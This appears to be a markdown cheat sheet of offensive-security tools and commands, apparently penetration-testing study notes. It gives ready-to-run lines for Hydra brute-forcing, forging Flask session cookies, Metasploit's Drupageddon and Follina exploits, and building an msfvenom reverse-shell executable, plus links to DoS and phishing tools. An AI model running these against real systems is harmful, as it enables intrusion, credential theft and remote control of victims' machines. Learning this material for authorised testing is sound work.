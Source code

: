 # Cybersecurity Threats & Offensive Security Techniques

## Frameworks for Tracking Threat Actions
- **MITRE ATT&CK**: [https://attack.mitre.org/](https://attack.mitre.org/)

## Exploitation Techniques
### Brute-Forcing with Hydra
```sh
hydra -L users.txt -P pass.txt IP_ADDRESS ftp -V
```

### Intrusion Prevention Systems (IPS)
- IPS solutions analyze network traffic to detect and prevent threats.
- Example: **Snort** ([https://www.snort.org/](https://www.snort.org/))

## Port Scanning & Enumeration
### Checking Open Ports:
- **Windows:**
```sh
netstat -an
netstat -antb
```
- **Unix/Linux:**
```sh
ss -nltp
netstat -tulpn
```

## JWT Token Security Assessment
```sh
flask-unsign -u -c .XXXXXXXXX -nE -w /usr/share/wordlists/rockyou.txt
flask-unsign -s --secret "secret123" --cookie "{'login': True, 'username': 'blue'}" -l
sudo -l
```

## DataBase Vulnerability Research
- **Exploit Database**: [https://www.exploit-db.com/](https://www.exploit-db.com/)
- **Common Vulnerabilities (CVE Database)**: [https://www.cve.org/](https://www.cve.org/)   && https://www.cvedetails.com 
- **National Vulnerability Database**: [https://nvd.nist.gov/](https://nvd.nist.gov/)

## CMS Vulnerabilities
### Drupal 7 (Versions 7.0 - 7.31) - SQL Injection Exploit
```sh
msf6 exploit(multi/http/drupal_drupageddon) > show options
msf6 exploit(multi/http/drupal_drupageddon) > exploit
```

## Preventing Obsolete Software Vulnerabilities
- Regularly update all system components, including plugins and dependencies.
- Ensure security patches are applied to the entire system.
- Review configurations to prevent misconfigurations leading to vulnerabilities.

## Password Cracking (brute-force) & Hash Recovery
- **Hydra**: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
- **Hashcat**: [https://hashcat.net/wiki/](https://hashcat.net/wiki/)
  - ***Example:*** https://hashcat.net/wiki/doku.php?id=example_hashes  
- **CrackStation**: [https://crackstation.net](https://crackstation.net)

## Credential Capture with Responder
- Tool: [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

## Zero-Day Exploit Marketplace
- [https://0day.today](https://0day.today)

## Exploiting Microsoft Office Vulnerabilities
### CVE-2022-30190 (Follina)
```sh
python3 follina.py -r 9999
```
- More details: [https://www.hackthebox.com/blog/cve-2022-30190-follina-explained](https://www.hackthebox.com/blog/cve-2022-30190-follina-explained)

## Wireless Security Assessment Tools
- **Airgeddon**: [https://github.com/v1s1t0r1sh3r3/airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)
- **WiFiPhisher**: [https://github.com/wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher)
- **WiFi Exploitation Framework**: [https://github.com/D3Ext/WEF](https://github.com/D3Ext/WEF)

## Social Engineering & Phishing
- **SET (Social Engineer Toolkit)**: [https://github.com/trustedsec/social-engineer-toolkit](https://github.com/trustedsec/social-engineer-toolkit)
```sh
sudo setoolkit
```

## Denial of Service (DoS) Attack Tools
- **LOIC** ([https://sourceforge.net/projects/loic/](https://sourceforge.net/projects/loic/))
- **HOIC** ([https://sourceforge.net/projects/highorbitioncannon/](https://sourceforge.net/projects/highorbitioncannon/))
- **hping3** ([https://www.kali.org/tools/hping3/](https://www.kali.org/tools/hping3/))
- **TorsHammer** ([https://github.com/Karlheinzniebuhr/torshammer](https://github.com/Karlheinzniebuhr/torshammer))

## Reverse Shell & Payload Generation
### Generating a Windows Reverse Shell with MSFVenom
```sh
msfvenom -p windows/x64/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe -o file.exe
```

## Ransomware Overview
- **Notable Variants**:
  1) WannaCry
  2) CryptoLocker
  3) BadRabbit

## Spyware & Information Theft
- Spyware remains hidden while collecting sensitive user data.

## SQL Injection Techniques
- Error-based, Union-based, Blind SQL Injection
```sh
msf6 exploit(multi/http/drupal_drupageddon) > show options
msf6 exploit(multi/http/drupal_drupageddon) > exploit
```

## Security Information and Event Management (SIEM)
### Enumerating Active Reverse Shells
```sh
ps -aef --forest
```
- **Common SIEM Tools**: Splunk, ELK Stack, QRadar
- **Common Red Team Tools**: Sliver C2, Wireshark

## Penetration Testing Operating Systems
- **Kali Linux**: [https://www.kali.org](https://www.kali.org)
- **Parrot OS**: [https://www.parrotsec.org](https://www.parrotsec.org)
- **Black Arch**: [https://blackarch.org](https://blackarch.org)

## Privilege Escalation
### Local Enumeration for Escalation Paths
- **LinPEAS**: [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Hands-on Cybersecurity Training
- **TryHackMe**: [https://tryhackme.com/](https://tryhackme.com/)
- **HackTheBox**: [https://www.hackthebox.com/](https://www.hackthebox.com/)

## Wordlist Setup for Attacks
```sh
cd /opt/
sudo git clone https://github.com/danielmiessler/SecLists
cd /usr/share/wordlists
sudo gzip -d rockyou.txt.gz
```
